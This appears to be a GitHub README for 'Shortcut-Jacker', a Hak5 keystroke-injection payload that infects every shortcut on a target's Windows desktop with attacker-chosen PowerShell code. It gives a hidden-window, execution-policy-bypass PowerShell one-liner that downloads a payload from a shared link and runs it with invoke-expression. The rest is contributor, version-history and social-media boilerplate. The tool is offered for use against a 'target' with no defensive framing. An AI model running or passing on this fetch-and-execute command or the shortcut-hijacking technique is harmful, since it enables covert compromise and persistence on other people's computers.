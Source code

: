 <img src="https://github.com/M3!/hak5-submissions/raw/main/Assets/Shortcut-Jacker/shortcut.jpg" width="900">

## Getting Started

Once the script is executed, all of the shortcuts on your target's desktop will be infected with the PowerShell code you have stored in the `$code` variable in the .ps1 file

### Dependencies

* An internet connection
* Windows 10,11

##

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```

##

## Contributing

All contributors names will be listed here

M3!

##

## Version History

* 0.1
    * Initial Release

##


## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/M3?sub_confirmation=1">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/twitter.com/github.com/M3!">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/twitter.com/github.com/M3!/">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>